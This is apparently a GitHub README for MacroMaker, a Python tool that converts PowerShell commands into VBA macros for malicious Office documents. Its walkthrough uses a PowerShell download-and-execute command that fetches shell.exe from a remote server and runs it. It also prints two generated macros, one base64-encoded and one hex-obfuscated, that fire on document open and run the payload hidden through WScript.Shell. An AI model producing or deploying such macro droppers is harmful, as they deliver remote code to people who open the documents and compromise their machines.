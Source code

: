 # MacroMaker
*****************************
### what is Macros :
* Macros are special-purpose programs used to automate procedures within a bigger application or software. Usually a macro consists of a series of      commands and actions written in a dedicated Macro Language or a standard programming language. These commands will be executed automatically by the application when a certain trigger takes place.

* Macros are implemented extensively within Office Suites to allow the automation of common tasks and procedures. Different suites use different macro  languages, but some notable mentions are Visual Basic for Applications (MS Office), LibreOffice Basic (LibreOffice) and OpenOffice Basic (OpenOffice).

* Most Office macro languages have rather extensive features and can access various resources. For example, MS Office macros (written in VBA) can run  executables and use networking capabilities.
* Macro  can  use to  generate malicious  Microsoft Word or Microsoft Excel document  
* [reference](https://www.cynet.com/attack-techniques-hands-on/office-macro-attacks/)
* [Microsoft Doc](https://support.microsoft.com/en-us/office/macros-in-office-files-12b036fd-d140-4e74-b45e-16fed1a7e5c6)
### what is MacroMaker-
-------------------------------------
 * MacroMake is Script witten by python3 help to genertate  VBA  code ready to use
  - MacroMaker Take the powershell command as  aragnent  then will treanset the command to VBA code,  
  ready to  executed automatically any command  in  background
    - Executes PowerShell   or Uses networking capabilities to download files from remote servers ..etc
 * MacroMaker have to way to Gentate thr VBA code 
   - encode base16
   - hexformat

### How to enable-develope   -
-------------------------------------
 ### - enable Develope mode  to can inster macro in to microsoft-office 
 *  The Developer tab isn't displayed by default, but you can add it to the ribbon.
 - 1- On the File tab, go to Options > Customize Ribbon.
 - 3- Under Customize the Ribbon and under Main Tabs, select the Developer check box.
 * [reference](https://www.groovypost.com/howto/enable-developer-tab-microsoft-office-ribbon/)

 ## How to Use MacroMacker - 
 -----------------------------------------
 * git clone https://www.github.com/jac11/MacroMaker.git
 * cd MacroMaker
 * chmod +x MacroMaker.py
 * to see the help list MacroMaker.py -h/--help
 ## Eexpalin :-
----------------------------------------
 incace i need to download file and exctue after download i use powershaell  - 
 ```
 (New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')
 ```
- this code will download file from the server then will excxut it after download to use as VBA use Macromacker
- ./Macromaker.py <-c the poweshell code > <-n the file name to  save output > 
- ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
$ ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
* output VBA Script 
```

Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Str As String
	Str= str+"powershell -e KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQA"
	Str= str+"LgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAE"
	Str= str+"YAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA5ADUALgAx"
	Str= str+"ADAAMAAuADIAMgAxADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAGUAeA"
	Str= str+"BlACcALAAnACAAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMA"
	Str= str+"XABEAG8AYwB1AG0AZQBuAHQAcwBcAHMAaABlAGwAbAAuAGUAeABlAC"
	Str= str+"cAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAoACcAIABD"
	Str= str+"ADoAXABVAHMAZQByAHMAXABQAHUAYgBsAGkAYwBcAEQAbwBjAHUAbQ"
	Str= str+"BlAG4AdABzAFwAcwBoAGUAbABsAC4AZQB4AGUAJwApAA=="
	CreateObject("Wscript.shell").Run Str , 0, True 
End Sub



```
* to use same command and get  output  as hex  code user --hex option
```
./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code --hex
```
* output 
```
Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Hex As String
	Hex ="powershell.exe $hexString ='"& _
	"28 4e 65 77 2d 4f 62 6a 65 63 74 20 4e 65 74 2e 57 65 62 43 6c 69 65 6e 74 29 2e"& _
	" 44 6f 77 6e 6c 6f 61 64 46 69 6c 65 28 27 68 74 74 70 3a 2f 2f 31 30 2e 31 39 35"& _
	" 2e 31 30 30 2e 32 32 31 3a 38 30 30 30 2f 73 68 65 6c 6c 2e 65 78 65 27 2c 27 20"& _
	" 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c 73"& _
	" 68 65 6c 6c 2e 65 78 65 27 29 3b 53 74 61 72 74 2d 50 72 6f 63 65 73 73 20 28 27"& _
	" 20 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c"& _
	" 73 68 65 6c 6c 2e 65 78 65 27 29'"& _
	";$hexString.Split(' ') | forEach {[char]([convert]::toint16($_,16))}"& _
	"| forEach {$result = $result + $_};Set-Variable -Name 'ROT' -Value ($result);Invoke-Expression $ROT "
	Set WshShell = CreateObject("Wscript.Shell")
	WshShell.Run Hex, 0, True
End Sub
```
* output  will save in the MacroStore folder under the name  user give it - n <the name >
  
<img src = "images/1.png" width=450>  <img src = "images/2.png" width=450>
-----------------------------------------------------------------

- rootx1982@gmail.com
-  thank you 
